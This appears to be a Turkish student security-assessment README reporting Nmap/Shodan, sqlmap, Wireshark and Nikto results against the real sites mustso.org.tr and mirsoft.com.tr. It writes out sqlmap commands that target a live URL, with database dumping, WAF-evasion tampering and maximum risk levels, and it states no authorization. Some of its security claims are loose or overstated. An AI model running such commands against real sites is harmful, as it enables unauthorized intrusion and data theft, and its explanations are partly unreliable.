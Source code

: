 # Bilgi Sistemleri ve Güvenliği

Testler Sqlmap, Nikto, Nmap ve Wireshark üzerinden yapılmıştır.

# Nmap

https://www.shodan.io/
sitesinde yapılan taramada orta seviyeli olarak CVE-2014-4078 sonucu elde edildi ve ISS 8.5 kullanıldığı tespit edildi.

# Sqlmap

Sqlmapte yapılan testler sonucunda veritabanı olarak PostgreSQL kullanıldığı tespit edildi. Bunun yanı sıra yapılan testler sonucunda belirli çıktılar elde edildi.
WAF ile korunduğu için bazı sql injectionlar denenemedi bunlar txtler içinde gözükmektedir.

## Bu test aşamasında yazılan kodlar:

### 1-) python sqlmap.py -u "https://www.mustso.org.tr/Bas%C4%B1ndaBiz/Haber/tabid/17222/articleType/ArticleView/articleId/41518/Hayirli-Ramazanlar.aspx" --data="*"  --tamper="space2comment" --dbs --dump --batch

### 2-) python sqlmap.py -u "https://www.mustso.org.tr/Bas%C4%B1ndaBiz/Haber/tabid/17222/articleType/ArticleView/articleId/41518/Hayirli-Ramazanlar.aspx" --data="*"  --tamper="space2comment" --dbs --level 5 --risk 3 --dump --batch

### 3-)python sqlmap.py -u "https://www.mustso.org.tr/Default.aspx" --dbs --forms --crawl=2 --tamper=space2comment --random-agent
#### Bu işlemde veritabanının PostgreSQL olduğu tespit edilmiştir!


### 4-) python sqlmap.py -u "https://www.mustso.org.tr/Default.aspx" --dbs --forms --crawl=2 --dbms=postgresql --tamper=space2comment --random-agent --time-sec=10 --level=5 --risk=3
#### Bu test yüksek fazda olmuştur ve 11 saate yakın bir süreçte tamamlanmıştır.

<br>

# Wireshark

## 1. Bad TCP
tcp.analysis.flags && !tcp.analysis.window_update && !tcp.analysis.keep_alive && !tcp.analysis.keep_alive_ack <br>
Bad TCP 54 tane taradımız ağ’da bulduk, bunları göremek için github linkin’den ulaşabilirsiniz


## 2. ARP (Address Resulation Protocol)
Tipik bir kullanım, bir IP adresinin (ör. 192.168.0.10) temel Ethernet adresine (ör. 01:02:03:04:05:06) eşlenmesidir. ARP bu adreslerin keşfedilme şekli olduğundan, genellikle bir konuşmanın başında ARP paketlerini görürsünüz.
<br>Aşağıda 9 tane (ARP) paketini mustso’dan yakaladık. ARP bizim için önemli bir bilgidir.


## 3. HTTP (Hypertext Transfer Protocol)
Çok fazla içerik türü(content types) En kiritik buldumuz kısımda Application buldundu kısımdır.
Kötü amaçlı ve yazılım ararken kullandığınız etiket içerik türü ve uygulama türüdür.
Genelikle application ile başlayanları kötü amaçlı olarak kullanabiliriz, onları indirip ondan sonra deneyebiliriz ve eğer o uygulama çalışırsa hack ve kötü amaçlı olarak kullanabilir, o yüzden http protokolü çok önemli bir protokoldür.


## 4. TCP (Transmission Control Protocol)
Varsayılan olarak, Wireshark'ın TCP ayırıcısı her TCP oturumunun durumunu izler ve sorunlar veya olası sorunlar algılandığında ek bilgi sağlar. Bir yakalama dosyası ilk açıldığında analiz her TCP paketi için bir kez yapılır. Paketler, paket listesinde göründükleri sırayla işlenir.

### Bad TCP - Kısmında [Checksum Status: Unverified] olduğundan dolayı bu kısımları mustso’nun düzeltemsi gerekiyor.
### HTTP Kısmında [Checksum Status: Unverified] olduğundan dolayı bu kısımları mustso’nun düzeltemsi gerekiyor.

### Nikto
# mustso.org.tr
## X-Frame-Options
Clickjacking, UI Redressing saldırılarına karşı önerilen ve tüm majör browserlar tarafından desteklenen bir güvenlik headerıdır.(Headerlar, Http'nin hem istek hem de yanıt mesajlarında yer alan ve mesajın meta bilgilerini taşıyan bölümlerdir.)Siber saldırgan, güvenli olarak görünen web sayfası kullanıcılarını güvensiz bir sayfaya yönlendirerek manipüle edebilir.
## X-XSS-Protection
Tarayıcıda XSS güvenlik filtresini devreye alarak bir XSS payloadının sayfada çalışmasını engelleyen headerdır.Bu zafiyet mustso.org.tr adresinin XSS ataklara karşı savunmasız olduğu anlamına gelir.
## X-Content-Type-Options
Content-Type headerı ile içeriğin tipi belirtilmediği taktırda tarayıcı içeriği analiz ederek, kaynağı en doğru biçimde görüntülemeye çalışır.Özellikle upload fonksiyonlarıyla beraber, sniffing işlemi bir takım tehlikeler arz edebilir.Örneğin zararsız addedilen bir text dosyası upload ettildiğini varsayalım.Bu text dosyası eğer HTML ve script tagları, Javascript kodları içeriyorsa ve biz bu yüklenen dosyayı tekrar kullanıcıya sunarken bir Content-Type belirtmiyorsak, tarayıcı bu sayfanın içeriğini analiz ederek bunun text/html tipinde bir dosya olduğuna karar verecektir ve bu sayfadaki kodlar çalışacaktır.
# mirsoft.com.tr
## Entry '/LinkClick.aspx?*'
robots.txtde bulunan 'mirsoft.com.tr//LinkClick.aspx?*' adresi yasaklanmamış 500 hata kodu döndürüyor yani sunucu tabanlı bir sıkıntı.
## robots.txt
Girişler manuel olarak denendi ve bir açığa ulaşılamadı.




